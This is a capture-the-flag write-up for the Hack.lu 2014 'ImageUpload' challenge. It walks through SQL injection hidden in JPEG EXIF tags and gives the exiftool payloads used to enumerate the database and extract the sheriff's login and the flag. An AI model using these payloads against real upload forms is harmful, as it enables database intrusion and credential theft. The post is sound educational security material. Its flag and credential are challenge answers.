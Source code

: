 ```yaml
---
layout: post
title: "Hack.lu 2014 - ImageUpload"
date: 2014-10-24 09:25
comments: true
author: stacks0n
categories: [web, sqli]
---
```


## Challenge
In the Wild Wild Web, there are really bad guys. The sheriff doesn't know them all. Therefore, he needs your help.
Upload pictures of criminals to this site and help the sheriff to arrest them.
You can make this Wild Wild Web much less wild!!!

Pictures will be deleted on regular basis!

## Analysis
The site is two separate pages. One is a simple submit form in which you upload an image to the site. It explicitly asks for .jpg or .jpeg images. The second page is a simple login form that has a valid username of `sheriff`, that can be detected based on differentiating responses of failed logins (invalid user vs invalid password).

The form submissions explicitly asks for .jpg or .jpeg images, however if you rename the extension of another file type it appears to pass but
has issues printing. After uploading the image, it displays three exif tags: `author`, `manufacturer`, and `model`. These tags, along with heigh tand width information are displayed in a table beneath the image.

First attempts were to embed javascript into exif tags using exiftool, assuming a sheriff user would login to view the criminals. The values appear to be HTML encoded, however providing a single quote led to a database error. Looks like SQL injection.

Here is the list of modifications I made to my jpeg to get info from the database:

* `exiftool "-artist=stacks0n" hack.jpg`
 * ensure existence of Author field
* `exiftool "-artist=Artist','Manufacturer','Model') -- " hack.jpg`
 * test injection
* `exiftool -artist=Artist','Manufacturer',concat('a','b')) -- " hack.jpg`
 * test for MySQL
* `exiftool "-artist=Artist','Manufacturer',(SELECT count(table_name) FROM information_schema.tables )) -- " hack.jpg`
 * get number of tables (43)
* `exiftool "-artist=Artist','Manufacturer',(SELECT table_name FROM information_schema.tables LIMIT 42,1 )) -- " hack.jpg`
 * get table name (users)
* `exiftool "-artist=Artist','Manufacturer',(SELECT column_name FROM information_schema.columns where table_name = 'users' LIMIT 0,1  )) -- " hack.jpg`
 * get column names (id, name, password)
* `exiftool "-artist=Artist',(SELECT name from users where id = 1 ),(SELECT password from users where id = 1 )) -- " hack.jpg`
 * get login info (sheriff, AO7eikkOCucCFJOyyaaQ)

Lastly, login as sheriff for flag.

## Solution
You are sucessfully logged in.

Flag: flag{1\_5h07\_7h3\_5h3r1ff}
